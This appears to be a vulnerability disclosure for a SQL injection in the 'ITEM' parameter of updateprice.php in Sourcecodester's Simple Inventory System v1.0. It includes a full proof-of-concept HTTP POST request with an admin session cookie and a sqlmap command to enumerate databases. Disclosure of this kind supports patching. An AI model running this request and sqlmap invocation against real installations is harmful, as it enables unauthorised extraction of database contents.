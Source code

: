 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：updateprice.php

injection parameter:$_POST['ITEM']

#### 1.Vulnerability analysis

As shown in the figure below, in updateprice.php, after the ITEM parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through Boolean injection.

![image-20240517161051373](SourceCodester Simple Inventory System Sql Inject-2.assets/image-20240517161051373.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /updateprice.php HTTP/1.1
Host: 10.15.6.184:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://10.15.6.184:82
Connection: close
Referer: http://10.15.6.184:82/tableedit.php
Cookie: PHPSESSID=b3e8bialebcp70drgpo4ojapp1
Upgrade-Insecure-Requests: 1

ITEM=1&itemprice=123
```

python salmap.py -r 1.txt --batch --dbs

![image-20240517160753953](SourceCodester Simple Inventory System Sql Inject-2.assets/image-20240517160753953.png)

